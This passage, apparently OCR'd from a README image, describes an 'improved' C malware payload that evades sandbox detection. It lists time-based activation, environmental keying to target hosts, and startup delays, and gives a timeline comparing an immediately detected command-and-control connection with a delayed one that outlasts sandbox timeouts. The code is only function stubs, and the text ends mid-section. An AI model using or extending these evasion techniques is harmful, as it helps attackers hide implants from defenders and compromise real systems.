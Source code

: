 #### G. Time-Based Activation:
```c
is_business_hours();
// Only connects Monday-Friday, 9 AM - 5 PM
// Real malware does this!
```

#### H. Environmental Keying:
```c
validate_environment(target_username, target_domain, target_hostname);
// Only runs on specific target systems
// Prevents sandbox analysis
```

---

## 📈 Detection Timeline Comparison

### Current Payload (main.c):
```
T+0.0s:   Start
T+0.1s:   socket() syscall         ❌ DETECTED (Immediate network)
T+0.2s:   connect() to C2           ❌ FLAGGED (Too fast)
T+5.0s:   Retry #1                  ❌ PATTERN DETECTED
T+15.0s:  Retry #2                  ❌ CONFIRMED MALWARE

VERDICT: MALWARE (99% confidence)
TIME TO DETECTION: <1 second
```

### Improved Payload (main_improved.c):
```
T+0.0s:   Start
T+30-90s: Initialization delays     ✅ Normal (app startup)
T+90s:    Check microsoft.com       ✅ Legitimate behavior
T+92s:    Read registry             ✅ Normal app behavior
T+95s:    Get system info           ✅ Normal
T+100s:   Check internet            ✅ Legitimate
T+140s:   Connect to C2             ⚠️ Delayed enough to evade sandbox
T+150s:   Random idle               ✅ Looks realistic
T+155s:   Receive command           ⚠️ By now, sandbox gave up

VERDICT: UNKNOWN (needs manual analysis)
TIME TO DETECTION: >5 minutes (sandboxes timeout)
```

---

## 🎯 Key Improvements

### 1. **Startup Delay: 0s → 70-200s**

